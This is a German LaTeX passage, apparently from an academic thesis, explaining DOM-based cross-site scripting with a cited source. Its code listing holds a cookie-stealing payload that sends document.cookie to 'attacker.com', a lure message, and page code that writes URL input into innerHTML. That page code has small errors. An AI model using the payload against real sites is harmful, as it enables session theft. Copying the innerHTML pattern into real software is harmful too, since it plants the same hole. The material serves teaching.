 Ruft man die Seite \verb+http://website.com/search?keyword=XSS+ auf, resultiert dies in einer angepassten Suchanfrage für XSS. Ersetzt man jedoch den keyword Parameter mit einem Skript-tag und ruft \verb+http://website.com/search?keyword=<script>+ \verb+Evilfunction()</script>+ auf, sendet der Web-Browswer eine HTTP Anfrage an \verb+http://website.com+ und bekommt eine statische HTML Seite zurück. Der Web-Browser baut das DOM auf und füllt die Eigenschaft \verb+document.URL+ mit der URL, welche das Skript enthält.

\begin{lstlisting}[caption={Beispiel für DOM-based XSS Attacke},label=dom_xss_example]
Hey user, check this out: "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

GET "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> You Searched for:</h1>
	<div id ="searchquery"></div>
	<script>
		var keyword = location.search.substring(3);
		document.querySelector('searchquery').innerHTML = keyword;
	<script>
</html>

<html>
	<h1> You Searched for:</h1>
		<div id ="searchquery">
			<script>window.location='http://attacker.com/?cookie='+document.cookie</script>
		</div>
	<script>
		var keyword = location.search.substring(3);
		document.querySelector('searchquery').innerHTML = keyword;
	<script>
</html>

GET "http://attacker.com/?cookie=user-cookie"
\end{lstlisting}

Der Web-Browser parsed die HTML Seite, und führt bei \verb+document.URL+ angekommen das Skript aus und lädt dabei den schadhaften Code von der \verb+document.URL+. Ist die Seite vollständig geladen, befindet sich der JavaScript Code vom Angreifer im DOM und wird durch den Interpreter im Web-Browser ausgeführt.

DOM-based XSS Attacken sind der Typ von XSS Angriffen, die im Document Object Model (DOM) einer HTMl Seite stattfinden, so dass der HTTP-Antwort-Code auf eine andere Art und Weise läuft. DOM XSS Angriffe können von einer Vielzahl von DOM Objekten durchgeführt werden \autocite[763]{swaswatigoswami2017}.

